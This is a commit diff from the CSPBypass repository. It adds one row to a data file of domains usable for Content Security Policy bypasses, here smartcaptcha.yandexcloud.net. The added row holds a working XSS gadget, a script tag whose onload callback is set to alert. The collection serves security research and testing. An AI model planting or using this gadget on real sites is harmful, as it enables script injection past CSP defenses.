

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added smartcaptcha.yandexcloud.net

```diff
--- a/data.tsv
+++ b/data.tsv
+row 124: smartcaptcha.yandexcloud.net | <script src="https://smartcaptcha.yandexcloud.net/captcha.js?render=onload&onload=alert"></script>
```
